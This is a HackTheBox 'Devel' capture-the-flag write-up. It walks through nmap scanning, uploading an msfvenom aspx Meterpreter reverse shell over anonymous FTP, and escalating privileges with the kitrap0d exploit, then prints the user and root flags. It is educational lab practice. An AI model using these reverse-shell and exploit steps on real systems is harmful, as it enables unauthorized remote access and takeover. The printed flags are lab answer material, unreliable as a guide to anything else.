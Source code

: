 ```yaml
---
layout: post
title: HackTheBox Devel
date: 2017-03-15
tags: [HackTheBox, Windows]
---
```


# Machine Synopsis

Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits. ([Source](https://www.hackthebox.com/machines/devel))

# Enumeration
```bash
┌──(root💀Shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.5              
Nmap scan report for 10.10.10.5
Host is up (0.17s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 SP1 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   165.75 ms 10.10.14.1
2   165.87 ms 10.10.10.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.96 seconds
```
Here is the default webpage. 

![Website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Devel/Website.png?raw=true)
![Source_Code](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Devel/Source_Code.png?raw=true)

Seems like there is nothing special on the website? Let’s look at the `nmap` scan again.

## Trying FTP port

From the `nmap` scan, we can see that there is a ```welcome.png``` which is in their `ftp` port which is then displayed on the website. Let's try connecting to the `ftp` server and upload something.

```bash
$ echo Testing FTP > test.txt

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Devel]
└─# ftp 10.10.10.5   
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:shiro): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```
![Test_FTP](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Devel/Test_FTP.png?raw=true)

## Creating Reverse Shell

A quick Google search on `IIS 7.5` shows that ISP runs on `ASP.NET`. This indicates that we might be able to create an `aspx` reverse shell with `msfvenom` to put into the `ftp` server for a reverse shell.

```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Devel]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT: 4444 -f aspx -o exploit.aspx

┌──(root💀Shiro)-[/home/shiro/HackTheBox/Devel]
└─# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:shiro): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put exploit.aspx 
local: exploit.aspx remote: exploit.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```
Create a listener in `msfconsole`.
```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > exploit
```
Now go to webpage ```10.10.10.5/exploit.aspx``` to trigger the reverse shell.
```powershell
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.5:49158)

meterpreter > shell
c:\windows\system32\inetsrv>systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          13/5/2021, 6:50:52 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.467 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.547 MB
Virtual Memory: In Use:    594 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::81e3:d327:33bf:2808
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e

c:\windows\system32\inetsrv>cd C:\\Users
C:\Users>dir
18/03/2017  02:16 ��    <DIR>          .
18/03/2017  02:16 ��    <DIR>          ..
18/03/2017  02:16 ��    <DIR>          Administrator
17/03/2017  05:17 ��    <DIR>          babis
18/03/2017  02:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  10:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)  22.277.140.480 bytes free

C:\Users>cd babis
Access is denied.
C:\Users>cd Administrator
Access is denied.
```
Seems like we can’t do anything with this account. I guess we need to find a way to escalate our privilege.

# Privilege Escalation

Let’s use Metasploit’s `local_exploit_suggester` to suggest us something! 

```bash
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run
...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
...
[*] Post module execution completed
```
Doing a quick research on `kitrap0d` shows that the exploit can be used because the `systeminfo` showed that the machine is x86 version which is vulnerable to `kitrap0d`.
```powershell
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0d 
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 1
msf6 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] Launching notepad to host the exploit...
[+] Process 3284 launched.
[*] Reflectively injecting the exploit DLL into 3284...
[*] Injecting exploit into 3284 ...
[*] Exploit injected. Injecting payload into 3284...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.2:4444 -> 10.10.10.5:49159)
meterpreter > shell
...
c:\windows\system32\inetsrv>cd C:\\Users\babis\Desktop
C:\Users\babis\Desktop>type user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8
C:\Users\babis\Desktop>cd C:\\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt
e621a0b5041708797c4fc4728bc72b4b
```

